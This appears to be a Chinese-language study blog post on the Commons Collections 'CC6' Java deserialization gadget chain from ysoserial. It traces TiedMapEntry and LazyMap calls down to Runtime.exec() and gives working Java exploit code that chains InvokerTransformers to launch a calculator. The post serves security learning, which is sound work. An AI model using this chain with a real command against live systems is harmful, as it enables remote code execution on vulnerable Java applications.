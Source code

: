 



### ysoserial版

```java
xxx.readObject()
	HashMap.put()
	HashMap.hash()
		TiedMapEntry.hashCode()
		TiedMapEntry.getValue()
			LazyMap.get()  //---------从这里开始-----------
				ChainedTransformer.transform()
					InvokerTransformer.transform()
						Runtime.exec()
```

因为前半段链子，LazyMap 类到 InvokerTransformer 类是一样的，我们直接到 `LazyMap` 下。

我们还是找其他调用 get() 方法的地方(我也不知道这是怎么找出来的，因为 get() 方法如果`find usages` 会有很多很多方法)



**1.寻找尾部的 exec 方法**

尾部的链子还是 CC1 链中，我们用到的那个 InvokerTransformer 的方法，前一段链子是和 CC1 链是一样的。



**2.找链子**

根据 ysoSerial 官方的链子，是 `TiedMapEntry` 类中的 `getValue() `方法调用了 `LazyMap` 的 `get() `方法。

![image-20231126143337265](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20231126143337265.png)

这里先重新写一遍 LazyMap 类调用计算器的 EXP，这种 EXP多写一写能让自己更加熟练。

```java
Runtime runtime = Runtime.getRuntime();
InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"});
HashMap<Object, Object> hashMap = new HashMap<>();
Map decorateMap = LazyMap.decorate(hashMap, invokerTransformer);
Class<LazyMap> lazyMapClass = LazyMap.class;
Method lazyGetMethod = lazyMapClass.getDeclaredMethod("get", Object.class);
lazyGetMethod.setAccessible(true);
lazyGetMethod.invoke(decorateMap, runtime);

```

链子的下一步是，TiedMapEntry 类中的 getValue() 方法调用了 LazyMap 的 get() 方法。我们用 TiedMapEntry 写一个 EXP，确保这条链子是能用的。

```java
Transformer[] transformers = new Transformer[]{
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
        new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
        new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
};
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
HashMap<Object, Object> hashMap = new HashMap<>();
Map lazyMap = LazyMap.decorate(hashMap, chainedTransformer);

//
TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "keykey");
tiedMapEntry.getKey();

```
